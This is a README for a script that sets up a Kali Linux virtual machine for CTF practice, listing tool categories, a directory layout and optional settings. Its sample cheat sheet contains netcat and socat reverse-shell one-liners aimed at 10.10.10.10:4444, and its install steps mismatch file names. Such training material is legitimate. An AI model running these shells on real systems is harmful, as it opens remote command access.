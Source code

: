 # 🛡️ Kali Linux CTF VM Setup

Automated setup for a Kali Linux Virtual Machine optimized for Capture The Flag (CTF) competitions.

> **Date:** June 19, 2025  
> **Tested On:** Kali Linux 2025.x  
> **Author:** Fred  
> **License:** MIT

## 📋 Overview

This project provides an automated setup script that configures a Kali Linux VM specifically for CTF competitions. It installs essential tools organized by category, creates a structured directory layout, configures useful aliases, and applies security enhancements.

The modular approach allows you to selectively install only the tools you need, reducing bloat while ensuring you have everything required for various CTF challenges.

## 🚀 Key Features

- **Modular Installation**: Choose which tool categories to install
- **Organized Structure**: Predefined directory layout for CTF organization
- **Essential Tools**: Comprehensive toolset for all major CTF categories
- **Security Hardening**: Firewall configuration and service management
- **Customization**: Optional enhancements like Zsh, Nerd Fonts, and ProxyChains
- **Logging**: Setup progress logged to `/root/ctf_setup.log`
- **Verification**: Automated verification of installed tools
- **Snapshot Ready**: Prepared for VM snapshot creation

## 📦 Installation

1. **Download the Script**
   ```bash
   wget -O ctf_setup.sh https://raw.githubusercontent.com/TheRealFredP3D/Kali-VM-Setup/main/install.sh
   ```

2. **Make it Executable**
   ```bash
   chmod +x install.sh
   ```

3. **Run as Root**
   ```bash
   sudo ./install.sh
   ```

The script will prompt you to install optional components.

## 🧰 Tool Categories

The script installs tools in the following categories:

- **Core Tools**: nmap, netcat, tcpdump, wireshark, git, python3, etc.
- **Reconnaissance**: gobuster, ffuf, amass, whatweb, nikto, etc.
- **Web Exploitation**: burpsuite, sqlmap, wfuzz, zaproxy, wafw00f, etc.
- **Reverse Engineering**: ghidra, radare2, gdb, peda, binwalk, etc.
- **Forensics**: foremost, sleuthkit, steghide, stegosuite, etc.
- **Password Cracking**: john, hashcat, hydra, medusa, etc.
- **Exploit Development**: metasploit-framework, pwntools, ropper, etc.

## 🗂️ Directory Structure

The script creates an organized directory structure at `/root/CTF/`:

```
CTF/
├── binaries/      # Binary exploitation challenges
├── crypto/        # Cryptography challenges
├── forensics/     # Forensics challenges
├── notes/         # Notes and cheat sheets
│   ├── notes.md
│   └── cheatsheet.md
├── pwn/           # Pwn challenges
├── reversing/     # Reverse engineering challenges
├── tools/         # Additional tools and wordlists
├── web/           # Web exploitation challenges
└── writeups/      # Challenge writeups
```

## ⚙️ Optional Enhancements

You'll be prompted to install these optional components:

- **Zsh & Oh My Zsh**: Enhanced shell with plugins
- **Nerd Fonts**: Improved terminal font support
- **ProxyChains**: Network proxy configuration
- **Visual Studio Code**: Code editor
- **Docker Testbeds**: DVWA and Vulnix for practice
- **Passwordless Sudo**: Convenience setting for isolated VMs

## 🔒 Security Features

- UFW firewall with outbound rules for HTTP, HTTPS, DNS
- Disabled unnecessary services (bluetooth, cups)
- Optional passwordless sudo for isolated environments
- Increased file watch limits for better performance

## ✅ Verification

The script automatically verifies installation of key tools:
- nmap, burpsuite, ghidraRun, sqlmap, john
- SecLists wordlists

## 💾 Post-Setup Steps

1. Shut down the VM
2. Create a snapshot called `CTF Base`
3. Start solving challenges on:
   - [TryHackMe](https://tryhackme.com/)
   - [Hack The Box](https://hackthebox.com/)
   - [PicoCTF](https://picoctf.org/)

## 🔧 Troubleshooting

| Issue | Solution |
|-------|----------|
| Network not working | Check VirtualBox/VMware adapter settings |
| Script fails | See `/root/ctf_setup.log` |
| Tool missing | Try reinstalling: `sudo apt install -y <tool>` |
| Fonts not applied | Run `fc-cache -fv` and restart terminal |
| Zsh not loaded properly | Run `source ~/.zshrc` as user |

## 📝 Sample Cheat Sheet

Example from `cheatsheet.md`:

```markdown
## Reverse Shells
- Netcat: `nc -e /bin/bash 10.10.10.10 4444`
- Socat: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444`

## Common Commands
- Nmap: `nmap -sC -sV -Pn <target>`
- Gobuster: `gobuster dir -u <url> -w ~/tools/SecLists/Discovery/Web-Content/common.txt`
```

## 📬 Customization

This setup can be extended into:
- Ansible or Docker-based reproducible labs
- Versioned GitHub repository
- Headless setup flow with install flags

Happy Hacking! 🐱‍💻

